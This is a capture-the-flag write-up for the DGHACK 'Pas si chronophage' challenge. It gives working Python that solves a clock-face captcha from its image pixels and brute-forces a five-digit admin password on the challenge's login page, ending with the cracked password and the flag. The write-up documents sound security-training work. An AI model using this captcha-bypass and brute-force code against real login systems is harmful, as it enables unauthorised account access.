





# Dev / Pas si chronophage

## Challenge
Cette application permet la connexion de l'utilisateur à son compte de box internet.

## Inputs
- http://passichronophage.chall.malicecyber.com/

## Solution
We have a login page protected with a clock captcha.



We have some additional indication:
- default username is `admin`
- password is composed of 5 digits

So, providing we can automatically solve the captchas, we can bruteforce the password.

To solve the captcha, the ideal way to do it would be to train a neural network. After all, there are only 720 positions in a clock (12*60). But to do that, we would need a labelled set of such clock captchas (meaning examples of such clock captchas, labelled with the indicated time).

But I couldn't find the code that generates such clock captchas, so I couldn't generate the labelled set. I could try and code it myself, but I didn't feel like it !

So the way I did it was to manually identify the time displayed in a captcha. The steps:
- Extract the captcha image
- Cleanup the captcha image, by removing colored pixels to remove the colored lines
- Also remove the clock border, such that we are left with only the clock hands
- Identify a pixel in the end of the clock long hand to get the minutes `M` (some trigonometry here)

At this step, I'm capable to identify the minutes in a clock captcha. Then I need to remove the pixels from the clock long hand:
- To do that I built a set of minute-labelled cleaned-up captchas: wet 3000 captchas by accessing the URL 3000 times, and identify the minute for all of those using the first steps above.
- Build a list `labels` of minute-labelled clock captchas, one per minute (0 to 59). With a set of 3000 captchas, we can make sure we one at least one for each single minute in (0 to 59).
- We already identified that `M` is the minute for the captcha we want to solve.
- Identify in the `labels` list, the one corresponding to minute `M`, say `reference`
- Remove the black pixels that are both present in the captcha to solve and in the minute-labelled `reference` captcha
- Result is an image when the remaining black pixels are mostly the clock short hand (hours). Of course, there are still some parasite pixels, but that's not an issue.

At this step when known the minute `M` and are left with the pixels of the clock short hand (hours):
- Divide the image in 12 sectors from its center and count the number of pixels in each. The sector that has the maximum number of pixels in the hour `H` (again, some trigonometry here).
- Now we have both minute and hour: captcha solved !
- The process is a bit long, and probably suboptimal. But I managed to get the error rate pretty low. There are still some errors, but we can get always get another captcha anyway, so the residual errors is not an issue.

#  Extract the captcha image
Use `BeautilulSoup` to parse the image and extract the link to the captcha, then get the captcha image itself in a file.
```python
    r = s.get("http://passichronophage.chall.malicecyber.com/")
    if r.status_code == 200:
        soup = BeautifulSoup(r.content, "html.parser")
        # Get captcha PNG image
        div = soup.find("div", attrs={"class": "captchaContainer"})
        r = s.get(urljoin("http://passichronophage.chall.malicecyber.com/", div.img["src"]))
        if r.status_code == 200:
            guess = guess_extension(r.headers['content-type'])
            if guess:
                fname = "captcha" + guess
                with open(fname, "wb") as f:
                    f.write(r.content)
```

Here it is:



# Cleanup the captcha image
Remove colored pixels and clock border:
```python
def clean_captcha(f):
    img = Image.open(f)
    pix = img.load()
    (W, H) = img.size
    for x in range(W):
        for y in range(H):
            p = pix[x, y]
            # Remove colored pixels
            if p != (0,0,0) and p != (255,255,255):
                pix[x, y] = (255,255,255)
            # Remove clock circle
            d = sqrt( (x - W/2)**2 + (y - H/2)**2)
            if d >= 75.00:
                pix[x, y] = (255, 255, 255)
    fname = "clean_" + f
    img.save(fname)
    return img, pix
```

Here it is:




# Get the minutes
Use a large circle to identify a pixel at the end of the clock long hand. Then do some trigonometry to get the angle of that pixel, with the image center (so the clock center) as the origin. Then from the angle, we get back to the minutes, since 1 minute corresponds to 6 degrees on the clock (360/60):
```python
def get_minute(f, img, pix):
    (W, H) = img.size
    d_m = sqrt( (60.00 - W/2)**2 + (60.00 - H/2)**2)
    found = (0, 0)
    for x in range(W):
        for y in range(H):
            d = sqrt( (x - W/2)**2 + (y - H/2)**2)
            # Use a large circle to detect long clock hand (minutes)
            if d >= d_m:
                if pix[x, y] == (0, 0, 0):
                    pix[x, y] = (255, 0, 0)
                    found = (x, y)
                    break
        if found != (0, 0):
            break
    angle = get_angle_m(found, W, H)
    # On the clock, 1 minute corresponds to 6 deg (360/60)
    m = round(abs(60 - angle / 6)) % 60
    fname = "minute_" + str(m).zfill(2) + "_" + f
    img.save(fname)
    return m
```

# Build a set of minute-labelled cleaned-up captchas
Get 3000 captchas by accessing the URL 3000 times.

Then, identify the minute for all of those using the first steps above:
```python
def do_labels():
    # Parse the captcha database, label each with the computed minute
    for i in range(3000):
        captcha  = "captcha_" + str(i) + ".png"
        clean, pix = clean_captcha(captcha)
        minute     = get_minute(captcha, clean, pix)
        print(i, minute)
```

Build a list `labels` of minute-labelled clock captchas, one per minute (0 to 59). With a set of 3000 captchas, we can make sure we one at least one for each single minute in (0 to 59). In fact, I built two sets, so that that in case of captcha error, we can retry with another minute-labelled reference. Not not usefull, but oh well...
```python
def get_labels():
    # Parse the captcha database, already labelled with minute in label_files()
    labels = list(); labels2 = list(); minutes = list()
    for fname in os.listdir('./labels'):
        # Get the minute label
        m = fname.split('_')[1]
        # We need two examples of each captcha for every minute in 0 to 59
        # In case we fail to solve one capcha, we have another a second minute-labelled reference
        if m not in minutes:
            minutes.append(m)
            labels.append(fname)
        elif minutes.count(m) == 1:
            minutes.append(m)
            labels2.append(fname)
        if len(minutes) == 2 * 60:
            break
    labels.sort()
    labels2.sort()

After calling that, I get this set:
```python
# Database of captchas, labelled with minute using do_labels()
labels = ['minute_00_captcha_1527.png', 'minute_01_captcha_55.png', 'minute_02_captcha_737.png', 'minute_03_captcha_2029.png', 'minute_04_captcha_2097.png', 'minute_05_captcha_1697.png', 'minute_06_captcha_1020.png', 'minute_07_captcha_1340.png', 'minute_08_captcha_873.png', 'minute_09_captcha_936.png', 'minute_10_captcha_375.png', 'minute_11_captcha_41.png', 'minute_12_captcha_654.png', 'minute_13_captcha_385.png', 'minute_14_captcha_1598.png', 'minute_15_captcha_2501.png', 'minute_16_captcha_1399.png', 'minute_17_captcha_440.png', 'minute_18_captcha_338.png', 'minute_19_captcha_207.png', 'minute_20_captcha_2196.png', 'minute_21_captcha_2039.png', 'minute_22_captcha_2699.png', 'minute_23_captcha_896.png', 'minute_24_captcha_2167.png', 'minute_25_captcha_2674.png', 'minute_26_captcha_369.png', 'minute_27_captcha_961.png', 'minute_28_captcha_1878.png', 'minute_29_captcha_1274.png', 'minute_30_captcha_12.png', 'minute_31_captcha_2286.png', 'minute_32_captcha_1137.png', 'minute_33_captcha_452.png', 'minute_34_captcha_2631.png', 'minute_35_captcha_2487.png', 'minute_36_captcha_1574.png', 'minute_37_captcha_1905.png', 'minute_38_captcha_1694.png', 'minute_39_captcha_893.png', 'minute_40_captcha_1346.png', 'minute_41_captcha_619.png', 'minute_42_captcha_171.png', 'minute_43_captcha_2983.png', 'minute_44_captcha_1798.png', 'minute_45_captcha_810.png', 'minute_46_captcha_1787.png', 'minute_47_captcha_143.png', 'minute_48_captcha_1919.png', 'minute_49_captcha_1977.png', 'minute_50_captcha_1767.png', 'minute_51_captcha_389.png', 'minute_52_captcha_392.png', 'minute_53_captcha_1512.png', 'minute_54_captcha_868.png', 'minute_55_captcha_1308.png', 'minute_56_captcha_1191.png', 'minute_57_captcha_1188.png', 'minute_58_captcha_1599.png', 'minute_59_captcha_1438.png']
```
It is indexed by minute (from 0 to 59), so easy to retrieve.

# Remove the clock long hand (minutes)
We already identified that `M` is the minute for the captcha we want to solve. Identify in the `labels` list, the one corresponding to minute `M`, say `reference` (easy, just get `labels[minute]`

Then:
- Remove the black pixels that are both present in the captcha to solve and in the minute-labelled `reference` captcha
- Divide the image in 12 sectors from its center and count the number of pixels in each. The sector that has the maximum number of pixels in the hour `H` (again, some trigonometry here):
```python
def get_hour(f, img, pix, label):
    img2 = Image.open("./labels/" + label)
    pix2 = img2.load()
    (W, H) = img.size
    for x in range(W):
        for y in range(H):
            # Remove the clock long hand using the labelled captcha (with minute)
            if pix[x, y] == (0, 0, 0) and pix2[x, y] == (0, 0, 0):
                pix[x, y] = (255, 255, 255)
    c = 30; count = 0
    hour = [0] * 12
    for x in range(W):
        for y in range(H):
            # Detect the short clock hand (hour)
            d = sqrt( (x - W/2)**2 + (y - H/2)**2)
            if (d >= 20.00) and pix[x, y] == (0, 0, 0):
                pix[x, y] = (255, 0, 0)
                angle = get_angle((x, y), W, H)
                # On the clock, 1 hour corresponds to 30 deg (360/12)
                h = floor(abs(12 - angle / 30)) % 12
                hour[h] += 1
    h = -1
    if max(hour) != 0:
        h = hour.index(max(hour))
    fname = "hour_" + f
    img.save(fname)
    return h
```

Here is the image with clock long hand removed. Also, the pixels considered to identify the hour are colored in red:



Now we have both minute and hour ! In the code, the function does it all:
```python
def get_time(captcha, label_set):
    clean, pix = clean_captcha(captcha)
    minute = get_minute(captcha, clean, pix)
    hour = get_hour(captcha, clean, pix, label_set[minute])
    if hour != -1 and minute == 0:
        hour += 1
    return hour, minute
```

Now the captcha itself is solved.

# Bruteforce the password
We need to piece together following:
- Solve the captcha: done with the steps above
- Get the keypad (the password digits are encoded with randomized key positions)
- Build a POST request to `login.php` with `base64` encoded parameters: username `admin`, attempted password and solved captcha.

```python
def bruteforce():
    guess = 0
    while guess < pow(10, 5):
        s = requests.session()
        captcha = solve_captcha(s, guess)
        if captcha != None:
            #proxy = { 'http': 'http://localhost:8080' }
            data = { 'username': b64encode('admin'.encode()).decode(),
                     'password': b64encode(str(guess).zfill(5).encode()).decode(),
                     'captcha': captcha }
            r = s.post("http://passichronophage.chall.malicecyber.com/login.php", data=data)
            if r.status_code == 200:
                if 'Bad username/password' in r.text:
                    print('bad pass')
                    guess += 1
                elif 'Wrong captcha' in r.text:
                    print('wrong captcha')
                else:
                    print('pass')
                    print(r.text)
                    break
            else:
                print(guess, 'error', r.status_code)
                print(r.text)
```

Run the bruteforce and hope for the best ! It's taking its sweet, but after some time, it eventualy got a hit!
```console
$ python3 sol.py
(...)
44174 11:06 bad pass
44175 05:48 bad pass
44176 04:41 bad pass
44177 10:36 bad pass
44178 07:42 bad pass
44179 11:29 bad pass
44180 01:29 bad pass
44181 11:38 bad pass
44182 04:25 bad pass
44183 08:47 bad pass
44184 05:48 bad pass
44185 03:32 bad pass
44186 10:59 bad pass
44187 11:53 bad pass
44188 11:55 pass
```

# Login
With password `44188`, we can indeed login and get the flag:



## Python code
Complete solution in [sol.py](./sol.py)

## Flag
DGHACK{DontFeelBadAboutDumpingYourInternetProvider}
